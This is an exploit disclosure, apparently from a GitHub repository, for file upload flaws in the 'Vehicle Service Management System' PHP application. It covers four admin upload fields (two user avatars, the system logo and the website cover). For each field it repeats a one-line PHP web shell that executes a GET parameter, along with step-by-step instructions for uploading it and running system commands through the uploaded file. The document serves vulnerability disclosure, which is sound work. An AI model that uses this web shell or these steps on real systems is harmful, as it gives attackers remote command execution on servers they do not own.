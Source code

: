 # Vehicle Service Management System - 'Multiple' File upload Leads to Code Execution
Vehicle Service Management System - 'Multiple' File upload Leads to Code Execution

### Exploit Title: Vehicle Service Management System - 'Multiple' File upload Leads to Code Execution
### Date: 29/12/2021
### Exploit Author: P.L.Sanu
### Exploit Author Website: https://www.plsanu.com
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/14972/vehicle-service-management-system-php-free-source-code.html
### Version: <= 1.0
### Tested on: Windows 10
### CVE : 
### Google Dork: N/A
### Reference: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-file-upload-leads-to-code-execution
- https://github.com/plsanu/Vehicle-Service-Management-System-Multiple-File-upload-Leads-to-Code-Execution

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user


### Code:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In My Account Section enter all the required details and browse the php file in Avatar.
5. Click on update button.
6. Open the avatar image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.

### Code:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In Create New User Page enter all the required details and browse the php file in Avatar.
5. Click on Save button.
6. Open the avatar image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Code:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In Settings Section enter all the required details and browse the php file in System Logo.
5. Click on update button.
6. Open the System Logo image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Code:
```html
<?php system($_GET['cmd']);?>
```

3. Save the above php code For Ex:Cmd.php
4. In Settings Section enter all the required details and browse the php file in Website Cover.
5. Click on update button.
6. Open the Website Cover image in new tab.
7. Add the cmd parameter in the URL and execute the commands.
8. Final URL: http://localhost/vehicle_service/uploads/1640632740_Cmd.php?cmd=whoami
9. Execute all the system commands For Ex: id, whoami, pwd etc..
